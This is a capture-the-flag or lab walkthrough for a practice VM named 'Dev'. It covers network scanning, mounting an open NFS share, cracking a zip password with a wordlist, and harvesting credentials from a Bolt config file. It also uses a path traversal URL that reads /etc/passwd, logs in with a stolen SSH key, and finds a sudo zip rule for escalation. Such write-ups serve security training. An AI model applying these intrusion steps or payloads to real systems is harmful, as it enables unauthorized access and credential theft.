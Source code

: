 # Dev

IP address: 10.0.2.155

```
└─$ sudo arp-scan -l      
[sudo] password for kali: 
Interface: eth0, type: EN10MB, MAC: 08:00:27:d2:26:79, IPv4: 10.0.2.15
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.1        52:54:00:12:35:00       (Unknown: locally administered)
10.0.2.2        52:54:00:12:35:00       (Unknown: locally administered)
10.0.2.3        08:00:27:e6:9a:7b       (Unknown)
10.0.2.155      08:00:27:e8:9b:23       (Unknown)

```

Nmap Scan:
```
└─$ nmap -sC -sV 10.0.2.155
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-19 17:51 EDT
Nmap scan report for 10.0.2.155 (10.0.2.155)
Host is up (0.00025s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Bolt - Installation error
|_http-server-header: Apache/2.4.38 (Debian)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36620/udp   mountd
|   100005  1,2,3      44981/tcp   mountd
|   100005  1,2,3      48427/tcp6  mountd
|   100005  1,2,3      59086/udp6  mountd
|   100021  1,3,4      39253/tcp   nlockmgr
|   100021  1,3,4      43059/tcp6  nlockmgr
|   100021  1,3,4      47373/udp6  nlockmgr
|   100021  1,3,4      56373/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs     3-4 (RPC #100003)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.11 seconds
```

Interesting note: 2049/tcp open  nfs     3-4 (RPC #100003)

```
└─$ showmount -e 10.0.2.155
Export list for 10.0.2.155:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

```

```
└─$ mount -t nfs 10.0.2.155:/srv/nfs /mnt/dev
mount.nfs: failed to apply fstab options

                                                                                                    
┌──(kali㉿kali)-[~]
└─$ cd /mnt/dev 
                                                                                                    
┌──(kali㉿kali)-[/mnt/dev]
└─$ ls
                                                                                                    
┌──(kali㉿kali)-[/mnt/dev]
└─$ sudo mount -t nfs 10.0.2.155:/srv/nfs /mnt/dev
                                                                                                    
┌──(kali㉿kali)-[/mnt/dev]
└─$ cd /mnt/dev                                   
                                                                                                    
┌──(kali㉿kali)-[/mnt/dev]
└─$ ls
save.zip
                                                                                                    
┌──(kali㉿kali)-[/mnt/dev]
└─$ unzip save.zip              
Archive:  save.zip
[save.zip] id_rsa password: 
   skipping: id_rsa                  incorrect password
   skipping: todo.txt                incorrect password
```

To crack the password of a zip file: fcrackzip

Command: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip


The password is java101

```
└─$ cat todo.txt 
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

```

The credentials found in a file config.yml, which was found in 80 port on the directory: http://10.0.2.155/app/config

Some useful information:
driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java

This is the web application on port 8080
![alt text](image.png)

Possible exploit: https://www.exploit-db.com/exploits/48411

The URL: http://10.0.2.155:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd

The output: jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash

Privilege escalation: 

```
 ssh jeanpaul@10.0.2.155 -i ./id_rsa           
Enter passphrase for key './id_rsa': 
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$ ls
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
jeanpaul@dev:~$ 

```

Here it is: 
![alt text](image-1.png)

Resource: https://gtfobins.github.io/gtfobins/zip/